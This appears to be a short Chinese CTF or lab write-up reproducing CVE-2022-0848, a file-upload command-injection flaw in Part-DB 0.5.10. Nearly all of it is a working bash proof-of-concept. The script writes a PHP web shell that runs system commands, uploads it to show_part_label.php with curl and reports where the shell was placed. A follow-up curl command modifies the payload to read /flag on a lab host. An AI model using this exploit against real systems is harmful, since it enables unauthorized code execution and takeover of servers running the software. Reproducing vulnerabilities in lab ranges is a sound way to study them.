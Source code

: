 ```yaml
---
title: CVE-2022-0848【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

[OS Command Injection vulnerability found in part-db](https://huntr.com/bounties/3e91685f-cfb9-4ee4-abaf-9b712a8fd5a6/)

## 2. 漏洞复现

**Proof of Concept**

```bash
#!/bin/bash

host=127.0.0.1/Part-DB-0.5.10 #WEBHOST

echo "<?php system(id); ?>">POC.phtml  #PHP Shell Code

result=`curl -i -s -X POST -F "logo_file=@POC.phtml" "http://$host/show_part_label.php" | grep -o -P '(?<=value="data/media/labels/).*(?=" > <p)'`

rm POC.phtml

echo Shell Location : "$host/data/media/labels/$result"
```

经测试，可上传pht格式的文件，修改 POC 读取flag `system('cat /flag');`

```bash
 curl -i -s -X POST -F "logo_file=@poc.pht" "http://eci-2ze02k3jkii0av79ezzb.cloudeci1.ichunqiu.com/show_part_label.php" | grep -o -P "(?<=value='data/media/labels/).*(?=' > <p)"
```


![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310201138115.png)
